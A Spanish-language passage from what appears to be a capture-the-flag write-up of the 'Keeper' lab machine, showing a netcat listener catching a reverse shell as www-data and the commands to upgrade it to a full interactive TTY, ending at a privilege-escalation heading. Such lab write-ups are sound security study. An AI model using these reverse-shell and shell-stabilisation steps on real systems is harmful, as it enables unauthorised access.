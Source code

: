 Una vez este todo hecho `guardamos cambios`, nos dirigimos a `/home` y `creamos` un `ticket`

![](/assets/img/Keeper/image_16.png)

Si todo ha ido bien deberíamos haber `obtenido` una `shell`,  ahora vamos a hacer un `tratamiento` a la `TTY`

```
# nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.100.101] 43578
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
## Privilege Escalation
